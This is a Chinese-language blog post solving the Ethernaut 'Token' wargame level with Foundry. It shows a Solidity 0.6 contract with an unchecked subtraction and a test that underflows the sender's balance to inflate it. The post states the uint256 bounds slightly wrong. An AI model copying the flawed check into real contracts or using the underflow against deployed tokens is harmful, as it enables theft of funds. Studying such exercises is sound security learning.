

# Foundry 通关 Ethernaut（4）— Token

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

增加用户 balance

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. **constructor：** 记录合约部署者的余额为给定值
2. **transfer**:
   1. 输入目标转账地址以及转账值
   2. 当 balances 映射中用户记录的余额 减去要转账的金额大于等于 0 时
   3. 用户余额减少，目标地址余额增加

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```

## 思路

对于 uint256 类型来说，范围是 0 - 2的256次方，超过这个范围，溢出后会从最大值或最小值开始计算，也就是说：

下溢  ：0-1 = 2的256次方

上溢  ：2的256次方 + 1 = 0

这个合约中，即使用了 0.6 版本，没有修复 uint 类型的溢出，也没有引入例如 SafeMath 这种安全库，我们只要使 `balances[msg.sender] - _value` 下溢，即可使其值变大，也就是说：

输入一个比当前余额大的值，反而余额增多

## foundry 复现

这里的版本和之前几关版本都不同，因此我采用了最朴素的办法，直接新建一个foundry 项目

### 1. 测试脚本

```solidity
// SPDX-License-Identifier: UNLICENSED
// 处理关于结构体等复杂数据
pragma experimental ABIEncoderV2;
pragma solidity 0.6.12;

import {Test, console} from "forge-std/Test.sol";
import {Token} from "../src/Token.sol";

contract TokenTest is Test {
    Token public token;
    address public owner = vm.addr(123);
    address public attacker = vm.addr(456);

    function setUp() external {
        vm.prank(owner);
        token = new Token(20);
    }

    function test_attack() public {
        console.log("before",token.balanceOf(owner),token.balanceOf(attacker));
        vm.prank(owner);
        token.transfer(attacker, 22);
        console.log("after",token.balanceOf(owner),token.balanceOf(attacker));
    }
}
```

这里初始设置用户 token 为20，但是转给 attacker 22

### 2. 测试

终端输入

```solidity
forge test --match-path test/Token.t.sol -vvvv
```



我们可以看到，在给attack转账超过自身余额值后，用户自己的余额增加到一个非常大的数